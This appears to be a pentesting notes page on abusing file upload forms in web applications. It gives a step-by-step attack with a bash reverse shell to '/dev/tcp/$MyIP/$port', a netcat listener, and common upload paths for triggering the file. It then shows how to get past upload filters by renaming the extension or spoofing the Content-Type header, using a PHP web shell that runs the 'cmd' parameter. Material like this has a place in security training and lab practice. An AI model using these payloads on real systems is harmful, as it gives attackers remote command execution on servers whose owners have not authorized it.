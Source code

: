 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Abuse File Upload

File upload functionality is a common feature in web applications, allowing users to submit images, documents, or other files. However, improper handling of file uploads can lead to severe security risks, including remote code execution (RCE), privilege escalation, and data exfiltration.

Here we find an example scenario where this can be exploited:

* Imagine we find an application that allows users to upload files of a type but it does not validate the file type, for example, a field for submitting an image

```bash
http://$url/submit #Example route of the page with the submit option
```

***

* We should submit a file for an image extension such as _jpg_, or _png_, among others. But as is not validating input we could try to submit an arbitrary file with a script for a Reverse Shell

<pre class="language-sh" data-title="RevShell.sh" data-overflow="wrap" data-line-numbers><code class="lang-sh">#!/bin/bash
<strong>bash -i >&#x26; /dev/tcp/$MyIP/$port 0>&#x26;1
</strong></code></pre>

***

* Then we set up a [_Netcat_](../../networks/tools-and-utilities.md#netcat) listener to catch the connection

{% code overflow="wrap" lineNumbers="true" %}
```bash
 nc -nvlp $port #Same port that is in the script
```
{% endcode %}

***

* Then we hit the web calling the file, and with this, we should catch the shell in our listener

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/RevShell.sh #Invoke the file
http://$url/uploads/RevShell.sh   #Common route for uploaded files
http://$url/_uploaded/RevShell.sh #Another common route for uploaded files
```
{% endcode %}

{% hint style="info" %}
If we don't know where the files are being saved on the web, we could fuzz the URL to find possible directions where they could be
{% endhint %}

***

## <mark style="color:orange;">File Type Filter Bypass</mark>

Sometimes the uploads are check and sanitized in different forms, here we find some ways to bypass this some of these restrictions:

* In case it's filtering by a string comparison of the extension or name, we could try to change them arbitrarily to match the requested

{% code overflow="wrap" lineNumbers="true" %}
```bash
mv RevShell.sh RevShell.jpg #Change extension if needed to match 
mv RevShell.sh image.jpg    #Change complete name if needed to match
```
{% endcode %}

{% hint style="info" %}
Then we can continue to invoke the file and gain the remote execution
{% endhint %}

***

* In case it's filtering by the file type indicated in the request headers, for example, the _Content-Type_ header we could try to change it arbitrarily to a valid one

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Example request
Content-Disposition: form-data; name="avatar"; filename="Shell.php"
Content-Type: application/x-php #This is set by default

<?php system($_REQUEST["cmd"]); ?>

# We can change it to bypass
Content-Disposition: form-data; name="avatar"; filename="Shell.php"
Content-Type: image/png #Use file type required, the content won't be checked

<?php system($_REQUEST["cmd"]); ?>
```
{% endcode %}

{% hint style="info" %}
ThenThen we can continue to invoke the file and gain the remote execution
{% endhint %}
